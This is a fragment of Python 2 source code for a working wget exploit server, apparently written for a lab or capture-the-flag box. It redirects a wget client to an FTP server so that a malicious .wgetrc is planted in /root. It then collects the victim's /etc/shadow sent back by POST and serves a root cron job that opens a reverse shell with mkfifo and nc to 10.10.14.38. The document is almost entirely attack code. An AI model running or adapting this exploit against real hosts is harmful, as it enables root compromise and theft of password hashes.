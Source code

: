 ```python
        print "We have a volunteer requesting " + self.path + " by GET :)\n"
        if "Wget" not in self.headers.getheader('User-Agent'):
            print "But it's not a Wget :( \n"
            self.send_response(200)
            self.end_headers()
            self.wfile.write("Nothing to see here...")
            return
        print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
        self.send_response(301)
        new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
        print "Sending redirect to %s \n"%(new_path)
        self.send_header('Location', new_path)
        self.end_headers()
    def do_POST(self):
    # In here we will receive extracted file and install a PoC cronjob
        print "We have a volunteer requesting " + self.path + " by POST :)\n"
        if "Wget" not in self.headers.getheader('User-Agent'):
            print "But it's not a Wget :( \n"
            self.send_response(200)
            self.end_headers()
            self.wfile.write("Nothing to see here...")
            return
        content_len = int(self.headers.getheader('content-length', 0))
        post_body = self.rfile.read(content_len)
        print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)  

        print "Sending back a cronjob script as a thank-you for the file..."
        print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(ROOT_CRON)
        print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"
        return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 443 >/tmp/f \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
    print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```
